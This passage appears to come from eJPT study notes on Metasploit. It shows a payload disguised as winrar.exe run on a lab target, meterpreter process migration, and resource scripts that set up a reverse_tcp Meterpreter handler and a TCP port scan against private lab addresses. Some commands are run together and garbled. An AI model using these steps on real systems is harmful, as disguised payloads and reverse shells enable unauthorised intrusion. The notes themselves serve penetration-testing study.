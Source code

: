 <figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-27de7cdb23d59739b4d177f1a32ddc74780573ed%2Fimage-20230415220833685.png?alt=media" alt=""><figcaption></figcaption></figure>

* Transfer and run the `winrar.exe` file to the target O.S.
* File description is kept, but not its functionality.

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c416cf444412c992defadf09a24f6adeb9401aac%2Fimage-20230415221016113.png?alt=media" alt=""><figcaption></figcaption></figure>

* Proceed with the Post Exploitation module to migrate the process into another one, in the `meterpreter` session

run post/windows/manage/migrate

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ca9eef2a7b72ca09defdcf07d701d4dc667061cc%2Fimage-20230415221432202.png?alt=media" alt=""><figcaption></figcaption></figure>

## Automation with [Resource Scripts](https://www.offsec.com/metasploit-unleashed/writing-meterpreter-scripts/)​ <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

* Almost every MSF command can be automated.

ls -al /usr/share/metasploit-framework/scripts/resource/usr/share/metasploit-framework/scripts/resourc&#x65;**`e.g. 1`**

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95ab3be68e60afb06d3824d9869156fdfb649c9f%2Fimage-20230415222643575.png?alt=media" alt=""><figcaption></figcaption></figure>

* _Automate the process of setting up a handler for the generated payloads_, by creating a new `handler.rc` file

nano handler.rc​# Insert the following lines# by specifying the commands sequentially​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run​# Save it and exit

* Load and run the recourse script in `msfconsole`

msfconsole -q -r handler.rcmsfconsole -q -r handler.r&#x63;**`e.g. 2`**&#x6E;ano portscan.rc​# Insert the following lines# by specifying the commands sequentially​use auxiliary/scanner/portscan/tcpset RHOSTS 192.168.31.131run​# Save it and exitmsfconsole -q -r portscan.rcmsfconsole -q -r portscan.r&#x63;**`e.g. 3`**&#x6E;ano db\_status.rc​db\_statusworkspaceworkspace -a TESTmsfconsole -q -r db\_status.rc

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-30a5d2563c243b3bef81b0835eaaf7aed1fdc488%2Fimage-20230415224235665.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9652fb3f7d34700f46ff906b184ad1c2111707ce%2Fimage-20230415223936432.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-dbf1e139c5e8f0aa6fbddec7ff86e88719e8dd05%2Fimage-20230415223258567.png?alt=media" alt=""><figcaption></figcaption></figure>

* 📌 Load up a resource script from within the `msfconsole` with the **`resource`** command

resource /home/kali/certs/ejpt/resource\_scripts/handler.rc

* Typed in commands in a new `msfconsole` session, can be exported in a new resource script
